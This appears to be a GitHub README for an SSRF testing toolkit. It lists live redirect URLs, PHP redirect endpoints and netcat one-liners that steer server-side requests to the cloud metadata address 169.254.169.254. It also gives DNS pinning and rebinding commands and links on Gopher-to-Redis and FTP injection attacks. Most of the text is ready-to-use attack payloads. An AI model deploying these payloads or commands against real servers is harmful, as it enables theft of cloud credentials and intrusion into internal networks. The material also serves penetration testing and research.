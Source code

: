 # SSRF Testing

***

### htaccess - redirect test for various cases
Status codes: 300, 301, 302, 303, 305, 307, 308

Filetypes: jpg, json, csv, xml
#### Live demo:
jpg 301 response without and with a valid response body:

`https://ssrf.localdomain.pw/img-without-body/301-http-169.254.169.254:80-.i.jpg`

`https://ssrf.localdomain.pw/img-with-body/301-https-169.254.169.254:80-.i.jpg`


json 301 response without and with a valid response body:

`https://ssrf.localdomain.pw/json-without-body/301-http-169.254.169.254:80-.j.json`

`https://ssrf.localdomain.pw/json-with-body/301-http-169.254.169.254:80-.j.json`


csv 301 response without and with a valid response body:

`https://ssrf.localdomain.pw/csv-without-body/301-https-169.254.169.254:80-.c.csv`

`https://ssrf.localdomain.pw/csv-with-body/301-https-169.254.169.254:80-.c.csv`


xml 301 response without and with a valid response body:

`https://ssrf.localdomain.pw/xml-without-body/301-http-169.254.169.254:80-.x.xml`

`https://ssrf.localdomain.pw/xml-with-body/301-http-169.254.169.254:80-.x.xml`

***

### custom-30x - Custom 30x responses and Location header with PHP

#### Live demo:

`https://ssrf.localdomain.pw/custom-30x/?code=332&url=http://169.254.169.254/&content-type=YXBwbGljYXRpb24vanNvbg==&body=eyJhIjpbeyJiIjoiMiIsImMiOiIzIn1dfQ==&fakext=/j.json`

***

### custom-200 - Custom 200 response and Content-Location header with PHP

#### Live demo:

`https://ssrf.localdomain.pw/custom-200/?url=http://169.254.169.254/&content-type=YXBwbGljYXRpb24vanNvbg==&body=eyJhIjpbeyJiIjoiMiIsImMiOiIzIn1dfQ==&fakext=/j.json`

***

### custom-201 - Custom 201 response and Location header with PHP

#### Live demo:

`https://ssrf.localdomain.pw/custom-201/?url=http://169.254.169.254/&content-type=YXBwbGljYXRpb24vanNvbg==&body=eyJhIjpbeyJiIjoiMiIsImMiOiIzIn1dfQ==&fakext=/j.json`

***

### Minimal web server using netcat

`while true ; do nc -l -p 80 -c 'echo -e "HTTP/1.1 302 Found\nContent-Type: application/json\nLocation: http://169.254.169.254/\n{\"a\":\"b\"}"'; done`

`while true ; do nc -l -p 554 -c 'echo -e "RTSP/1.0 301 Moved\nCSeq: 1\nLocation: http://169.254.169.254/"'; done`

***

### ip.py - Alternate IP encoding tool useful for SSRF Testing

python ip.py IP EXPORT(optional)

python ip.py 169.254.169.254

python ip.py 169.254.169.254 export

***

### DNS pinning

nslookup ssrf-169.254.169.254.localdomain.pw

***

### DNS pinning race condition

nslookup ssrf-race-169.254.169.254.localdomain.pw

***

### DNS Rebinding

pip install twised

python dns.py WhitelistedIP InternalIP Port

python dns.py 216.58.214.206 169.254.169.254 53

http://webcache.googleusercontent.com/search?q=cache:http://www.611eternity.com/DNSRebinding%E6%8A%80%E6%9C%AF%E5%AD%A6%E4%B9%A0/

***

### cloud-metadata.txt - Cloud Metadata Dictionary useful for SSRF Testing

***

### svg - SSRF with svg files

***

### Java/Python FTP Injections Allow for Firewall Bypass

http://webcache.googleusercontent.com/search?q=cache:http://blog.blindspotsecurity.com/2017/02/advisory-javapython-ftp-injections.html

http://webcache.googleusercontent.com/search?q=cache:https://shiftordie.de/blog/2017/02/18/smtp-over-xxe/

***

### SSRF + Gopher + Redis

http://webcache.googleusercontent.com/search?q=cache:http://vinc.top/2016/11/24/%E3%80%90ssrf%E3%80%91ssrfgopher%E6%90%9E%E5%AE%9A%E5%86%85%E7%BD%91%E6%9C%AA%E6%8E%88%E6%9D%83redis/

https://webcache.googleusercontent.com/search?q=cache:http://antirez.com/news/96

***

### Top 5 features that are often prone to SSRF vulnerabilities:

https://webcache.googleusercontent.com/search?q=cache:https://www.hackerone.com/blog-How-To-Server-Side-Request-Forgery-SSRF

***

### AppSecEU15-Server_side_browsing_considered_harmful.pdf
https://www.youtube.com/watch?v=8t5-A4ASTIU

***

### SSRF bible
https://docs.google.com/document/d/1v1TkWZtrhzRLy0bYXBcdLUedXGb9njTNIJXa3u9akHM

***
